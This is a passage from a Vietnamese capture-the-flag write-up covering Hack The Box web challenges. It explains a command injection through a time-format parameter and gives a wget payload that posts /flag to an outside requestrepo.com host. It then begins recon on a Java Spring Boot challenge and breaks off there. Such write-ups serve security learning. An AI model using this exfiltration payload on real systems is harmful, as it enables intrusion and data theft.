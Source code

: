 ```
```
- Trong class `TimeModel` sẽ khởi tạo với biến format ở trên sẽ tạo 1 command và khi gọi phương thức `getTime()` và exec command

- Hmm, thì đây là mình có thể vận dụng để tấn công commandinjection.


[ATTACK

- Đầu tiên mình thử dùng curl thì sever không có, thử tiếp đến wget với payload:

`';wget+--post-data+"$(cat+/flag)"+-O-+s6thtnzk.requestrepo.com' `

![image](https://hackmd.io/_uploads/SyExUfzAa.png)

- Kết quả:
- ![image](https://hackmd.io/_uploads/BJoWLMM0a.png)


- Đây là nếu bạn muốn blind, còn nếu muốn không blind thì :-1: 
- ![image](https://hackmd.io/_uploads/SJ7V8MzC6.png)


[Flag : `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`

## Labyrinth_linguist

![image](https://hackmd.io/_uploads/r1TUwMfCp.png)

- Tiếp tục là một bài white-box nhưng mà với source java mà lâu rùi mình chưa đụng nên mình chưa làm và gần cuối giải thì mới để ý và xem thêm hướng giải quyết của các anh trong clb:


[RECON:

- Đầu tiên thì cũng xem phần "vỏ" của trang này
- ![image](https://hackmd.io/_uploads/Bkx-dfz06.png)

- Thấy cái lá xanh xanh kia là biết java spring boot rùi:<

`Enter text to translate english to voxalith!` nhập text để chuyển đổi qua `voxalith`

![image](https://hackmd.io/_uploads/BJqhdzfCT.png)

- Chức năng cũng khá đơn giản:
- ![image](https://hackmd.io/_uploads/SkjeYzMC6.png)

- Search xem có gì không thì cũng không có gì khác ngoài cái template khá giống bài `j4JA` trong tetCTF,...
- ![image](https://hackmd.io/_uploads/HkWNcMzC6.png)

- ![image](https://hackmd.io/_uploads/BJZeqzfCT.png)

### DETECT

- Sơ qua thì cấu trúc cây thư mục như thế này:
![image](https://hackmd.io/_uploads/Sy5FczzCT.png)
